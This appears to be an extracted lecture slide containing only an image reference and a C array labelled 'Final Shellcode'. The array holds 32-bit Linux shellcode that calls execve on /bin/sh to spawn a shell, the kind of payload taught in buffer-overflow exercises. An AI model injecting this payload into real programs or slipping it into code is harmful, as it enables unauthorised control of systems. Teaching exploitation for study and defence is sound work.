

# Final Shellcode
char shellcode[] =
  "\xeb\x1c\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43"
  "\x0c\x89\xc2\x8d\x4b\x08\xb0\x0b\xcd\x80\x31\xdb\x89"
  "\xd8\x40\xcd\x80\xe8\xdf\xff\xff\xff/bin/sh";